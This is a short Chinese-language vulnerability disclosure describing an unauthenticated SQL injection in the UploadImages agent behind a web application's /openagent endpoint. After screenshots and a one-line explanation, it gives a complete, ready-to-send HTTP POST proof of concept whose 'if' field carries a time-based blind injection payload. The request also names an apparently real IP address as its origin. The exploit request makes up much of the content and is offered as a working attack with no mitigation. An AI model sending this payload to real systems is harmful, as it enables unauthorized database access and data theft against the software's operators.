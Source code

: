 在文件WEB-INF/hcsystem-config.xml，定义了<pageurl \name="RtePhotosPath" url="/openagent?agent=hcit.project.rte.agents.UploadImages"/>
![image](https://github.com/night-0p/anh/assets/54882616/02209125-a497-4546-89dd-8a7032ff005b)
不需要登陆即可访问。
![image](https://github.com/night-0p/anh/assets/54882616/d5c693a3-7abc-480e-ad20-687b90c6d294)
hcit.project.rte.agents.UploadImages.class
![image](https://github.com/night-0p/anh/assets/54882616/8f8dd79d-d756-4df8-a224-0454bfc51484)
由于this.if.getText()无任何过滤，直接拼接到语句里面，造成了SQL注入漏洞。
![image](https://github.com/night-0p/anh/assets/54882616/ae32e650-a50b-47ed-b79c-a7d8dba306bd)
POC:
```
POST /openagent?agent=hcit.project.rte.agents.UploadImages HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------320094836112074435372695393608
Content-Length: 845
Origin: http://223.76.123.194:8888
Connection: close
Referer: http://223.76.123.194:8888/openagent?agent=hcit.project.rte.agents.UploadImages
Cookie: JSESSIONID=1811ADB22D03B7A2EBEC4BE979665E0E.tomcat1
Upgrade-Insecure-Requests: 1

-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="__EVENTTARGET"

xaE65h`odxxhBaxE65paA
-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="__EVENTARGUMENT"


-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="do"; filename=""
Content-Type: application/octet-stream


-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="if"

000';WAITFOR DELAY '0:0:5'--
-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="a"


-----------------------------320094836112074435372695393608
Content-Disposition: form-data; name="__VIEWSTATE"


-----------------------------320094836112074435372695393608--

```
![15111712482245_ pic](https://github.com/night-0p/anh/assets/54882616/ca78fd8b-17ab-4bd2-b869-88653121a63e)






